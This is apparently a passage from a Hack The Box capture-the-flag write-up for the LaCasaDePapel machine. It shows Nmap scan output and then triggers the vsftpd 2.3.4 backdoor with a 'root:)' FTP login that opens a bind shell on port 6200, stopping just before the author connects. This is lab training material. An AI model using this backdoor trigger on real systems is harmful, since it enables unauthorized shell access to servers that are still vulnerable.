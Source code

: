 ```yaml
---
title: "LaCasaDePapel"
description: "Writeup for LaCasaDePapel machine from HTB"
date: 2020-09-04
author: "Pablo Jesús González Rubio"
cover: "lacasadepapel.png"
coverAlt: "LaCasaDePapel icon"
toc: true
tags: [ "Writeup" ]
---
```


## Scanning

We put the IP in `/etc/hosts`:

```txt
10.10.10.131 lacasadepapel.htb
```

Run Nmap:

```txt
[*] Full TCP Scan
Open ports: 80,22,21
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
22/tcp open  ssh     OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:e1:c2:c9:79:1c:a6:6b:51:34:8d:7a:c3:c7:c8:50 (RSA)
|   256 41:e4:95:a3:39:0b:25:f9:da:de:be:6a:dc:59:48:6d (ECDSA)
|_  256 30:0b:c6:66:2b:8f:5e:4f:26:28:75:0e:f5:b1:71:e4 (ED25519)
80/tcp open  http    Node.js Express framework
|_http-title: La Casa De Papel
Service Info: OS: Unix
```

## Enumeration

The FTP has the service `vsftpd 2.3.4` which is known for its smiley `:)` [vulnerability](https://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html). This, in some cases opens a backdoor shell at port 6200, which is the case!

Let's try it:

```bash
ftp lacasadepapel.htb
# user: root:)
# pass: root:)
```

{{< img "ftp.png" "FTP" "border" >}}

This got stuck, so now we may connect to the binding backdoor shell.
